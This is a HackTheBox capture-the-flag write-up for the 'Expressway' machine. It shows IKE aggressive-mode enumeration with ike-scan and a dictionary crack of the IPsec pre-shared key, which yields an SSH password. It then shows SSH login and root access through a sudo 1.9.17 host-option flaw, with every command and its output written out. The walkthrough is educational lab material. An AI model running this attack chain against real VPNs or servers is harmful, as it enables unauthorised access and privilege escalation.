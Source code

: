```yaml
---
layout: post
title: Expressway
subtitle: HackTheBox - Expressway
description: Enumerate services, scan TCP/UDP ports, exploit IPsec vulnerabilities, and escalate privileges to capture flags.
image: https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/75c168f01f04e5f256838733b77f13ec.png
optimized_image: https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/75c168f01f04e5f256838733b77f13ec.png
tags:
  - HackTheBox
  - IPsec Vulnerability
  - Privilege Escalation
  - Find Flags
author: Mustafa Altayeb
date: 2025-10-07 00:00
paginate: true
---
```


# Expressway
[Expressway on HackTheBox](https://app.hackthebox.com/machines/736)

![Expressway Banner](https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/75c168f01f04e5f256838733b77f13ec.png)

## Objectives
1. Enumerate UDP/TCP ports
2. Extract SSH credentials via IPsec
3. Gain initial access through SSH
4. Identify privilege escalation vectors
5. Capture user and root flags

## Reconnaissance

### Nmap Scan
Initial TCP port scan:
```bash
nmap -p1-65535 --min-rate 1000 10.10.11.87
```

**Results**:
```
PORT   STATE SERVICE
22/tcp open  ssh
```

UDP port scan:
```bash
nmap -p1-65535 -sU --min-rate 1000 10.10.11.87
```

**Results**:
```
PORT      STATE         SERVICE
9/udp     open|filtered discard
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
500/udp   open          isakmp
520/udp   open|filtered route
626/udp   open|filtered serialnumberd
997/udp   open|filtered maitrd
1030/udp  open|filtered iad1
3703/udp  open|filtered adobeserver-3
4500/udp  open|filtered nat-t-ike
49186/udp open|filtered unknown
49192/udp open|filtered unknown
49200/udp open|filtered unknown
```

**Key Findings**:
- **Port 500/UDP**: Running ISAKMP (IPsec VPN). All other ports filtered except 500.

## IPsec VPN Enumeration

Scan IPsec service:
```bash
nmap -sU -p 500 --script ike-version 10.10.11.87
```

**Results**:
```
PORT    STATE SERVICE
500/udp open  isakmp
| ike-version: 
|   attributes: 
|     XAUTH
|_    Dead Peer Detection v1.0
```

**Findings**:
- XAUTH and IKE version 1.0 detected.

### Identify VPN Vendor & Configuration
```bash
ike-scan -M -A 10.10.11.87
```

**Results**:
```
DR=(CKY-R=dc48124ff9415a5d)
SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
KeyExchange(128 bytes)
Nonce(32 bytes)
ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
VID=09002689dfd6b712 (XAUTH)
VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
Hash(20 bytes)
```

**Findings**:
- SSH user: `ike@expressway.htb`

### Extract VPN Group Name & PSK Hash
```bash
ike-scan -A --pskcrack 10.10.11.87
```

**Results**:
```
10.10.11.87 Aggressive Mode Handshake returned
HDR=(CKY-R=dcbe8baace3526f4)
SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
KeyExchange(128 bytes)
Nonce(32 bytes)
ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
VID=09002689dfd6b712 (XAUTH)
VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
Hash(20 bytes)
IKE PSK parameters:
eaed8f70947e12fd6067583f9bf689fa787958c4c1f268c416e87ffaf58091972cd2fb68abb7fc72760df90919220443dc5999323373d7017333d2350d89591a56b7bb5fa4bf926f4ef6515a6ba649cc2d6363806bda1156f327a66d15ce729ae4f4bfd4b7adfb06116f6bd3d7a7910398c0d49d3d2ff682ae1bb28a8ca1aad8:366a903bcde43282003ba2039824c675a772350bfcc123ce83bc5f51e422403b2de73fc7e67905b7d3cc5cd856c074770f4c2418fab912c263cdb5b0969fcf68dff33fdcdc007c32a2087340e3982788729b4c6ed74e91454a14ae775440fc0671891da8622fb898d5c5fd3326ea41f2ae0786c629fcf84241e4b492da11144b:dcbe8baace3526f4:7a0abdc5d7de2ce4:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:0bdf118d960e20e50e150b712ec195d1eb36273b:df9b7b0dec195f4609339273ea7eba684c86a2cd76a2e4a306827bf5ab53dc14:6bc5d6a1228177e114af9539ffd18c5aeb014df3
```

Crack the PSK hash:
```bash
psk-crack -d /usr/share/wordlists/rockyou.txt hash1.txt
```

**Results**:
```
Starting psk-crack [ike-scan 1.9.6]
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash 6bc5d6a1228177e114af9539ffd18c5aeb014df3
```

**Credentials**:
- User: `ike@expressway.htb`
- Password: `freakingrockstarontheroad`

## Initial Access via SSH
```bash
ssh ike@10.10.11.87
```

**Output**:
```
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.115.128 | 🥷 VPN IP ➜ 10.10.16.32
ike@10.10.11.87's password: 
Last login: Tue Oct 7 17:06:04 BST 2025 from 10.10.14.115
Linux expressway.htb 6.16.7+deb14-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.16.7-1 (2025-09-11) x86_64
ike@expressway:~$
```

### User Flag
```bash
ike@expressway:~$ ls
es.sh user.txt
ike@expressway:~$ cat user.txt
6e89cbec6...
```

## Privilege Escalation

### System Exploration
Found a `README` file in `/var/log`:
```bash
ike@expressway:/var/log$ cat README
You are looking for the traditional text log files in /var/log, and they are gone?
Here's an explanation on what's going on:
You are running a systemd-based OS where traditional syslog has been replaced with the Journal...
```

Log analysis revealed an internal hostname:
```bash
753229688.902 0 192.168.68.50 TCP_DENIED/403 3807 GET http://offramp.expressway.htb - HIER_NONE/- text/html
```

### Sudo Vulnerability
Check sudo version:
```bash
ike@expressway:/$ sudo -V
Sudo version 1.9.17
Sudoers policy plugin version 1.9.17
Sudoers file grammar version 50
Sudoers I/O plugin version 1.9.17
Sudoers audit plugin version 1.9.17
```

**Vulnerability**: Sudo 1.9.17 Host Option - Elevation of Privilege
- Allows execution of commands permitted by a remote host rule on the local system.

Exploit using the internal hostname:
```bash
ike@expressway:/$ sudo -h offramp.expressway.htb -i
root@expressway:~#
```

### Root Flag
```bash
root@expressway:~# ls
root.txt
root@expressway:~# cat root.txt
2f5481da2fed7...
```

## Conclusion
Successfully exploited an IPsec VPN to gain SSH credentials, accessed the system as user `ike`, and escalated privileges to root using a sudo vulnerability tied to an internal hostname.

<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style="border:none;"></iframe>

Follow me:
- [Linkedin](https://www.linkedin.com/in/t4t4r1s/)
- [Link 2](https://x.com/T4T4R1S)
```